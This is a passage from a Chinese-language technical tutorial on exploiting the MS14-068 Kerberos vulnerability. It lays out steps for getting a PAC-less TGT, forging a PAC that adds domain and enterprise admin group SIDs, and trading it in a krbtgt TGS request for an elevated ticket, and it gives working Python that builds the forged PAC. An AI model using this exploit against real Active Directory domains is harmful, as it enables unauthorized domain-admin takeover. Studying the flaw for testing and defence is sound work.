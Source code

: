 其中加密PAC的密钥就放在subkey里面。 大体流程就是KDC拿到AP\_REQ之后，提取里面authenticator的密文，用session\_key解密获得subkey，再使用subkey解密enc-authorization-data获得PAC.而PAC是我们自己伪造的.

所以最后梳理一下MS14068漏洞利用思路。

1.发起一个 PA\_PAC\_REQUEST里面选择include\_pac 为false。此时生成的TGT票据是不含有PAC的

![image-20191112183523824](https://p5.ssl.qhimg.com/t01ddb9fad9c10304d7.png)

2.伪造一个PAC。sid为当前用户的sid。将如下组的 sid加进GroupId

* 域用户（513）
* 域管理员（512）
* 架构管理员（518）
* 企业管理员（519）
* 组策略创建者所有者（520）

后续kerberos测试工具会加入制作PAC的功能，现在暂时不支持，我们直接利用pykek的代码来生成下，跟ms14068.py的同一文件夹底下，新建makepac.py,代码如下

```python
from kek.pac import build_pac
from kek.util import  gt2epoch
from kek.krb5 import AD_WIN2K_PAC,AuthorizationData,AD_IF_RELEVANT
from pyasn1.codec.der.encoder import encode
if __name__ == '__main__':
    user_realm = "0day.org" #改成自己的
    user_name = "jack" #改成自己的
    user_sid = "S-1-5-21-1812960810-2335050734-3517558805-1133" #改成自己的
    # logon_time = gt2epoch(str(as_rep_enc['authtime']))
    logon_time = gt2epoch('20191112101422Z')
    print(logon_time)
    authorization_data = (AD_WIN2K_PAC, build_pac(user_realm, user_name, user_sid, logon_time))
    ad1 = AuthorizationData()
    ad1[0] = None
    ad1[0]['ad-type'] = authorization_data[0]
    ad1[0]['ad-data'] = authorization_data[1]
    ad = AuthorizationData()
    ad[0] = None
    ad[0]['ad-type'] = AD_IF_RELEVANT
    ad[0]['ad-data'] = encode(ad1)
    data =  encode(ad)
    with open("jack.pac","wb") as f:
        f.write(data)
```

注意这里的logon\_time来自于第一步中生成的AS\_REP的enc\_part解密后的的authtime，在工具里面右键复制就行

![image-20191112182753255](https://p4.ssl.qhimg.com/t016faf1d0dcd0df8b3.png)

3.发起一次服务用户是krbtgt的TGS\_REQ，此时导入的TGT里面是不含有PAC的\(在第一步里面选择include=False返回的TGT不含有pac\)，然后将我们伪造的PAC是加密放在 enc-authorization-data里面。加密用的key的放在PA-DATA里面的AP\_REQ。此时返回的TGS里面就含有我们伪造的PAC。在之前的文章里面我们说过，在TGS里面，如果请求的服务是krbtgt的话，那么返回的TGS票据是可以当做TGT的。在我们的kerbreos测试工具里面，只需要导入上面makepac.py生成的pac文件。

![image-20191112182638373](https://p4.ssl.qhimg.com/t01fb7979dfaa15534e.png)
